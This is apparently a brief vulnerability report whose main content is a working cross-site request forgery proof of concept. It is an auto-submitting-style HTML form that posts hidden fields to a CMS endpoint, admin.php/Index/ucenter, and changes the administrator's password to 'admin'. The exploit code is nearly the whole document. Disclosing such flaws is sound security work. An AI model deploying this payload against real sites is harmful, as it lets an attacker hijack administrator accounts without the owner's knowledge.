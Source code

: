 After logging in, change the administrator password using the following POC

Password change to admin

POC:
```
<html>
  <body>
    <form action="http://www.a.com/admin.php/Index/ucenter" method="POST">
      <input type="hidden" name="formcheck" value="2335e6aa69c86829956978314ea54e23" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="realname" value="%E8%B6%85%E7%BA%A7%E7%AE%A1%E7%90%86%E5%91%98" />
      <input type="hidden" name="cpassword" value="123456" />
      <input type="hidden" name="password" value="admin" />
      <input type="hidden" name="rpassword" value="admin" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

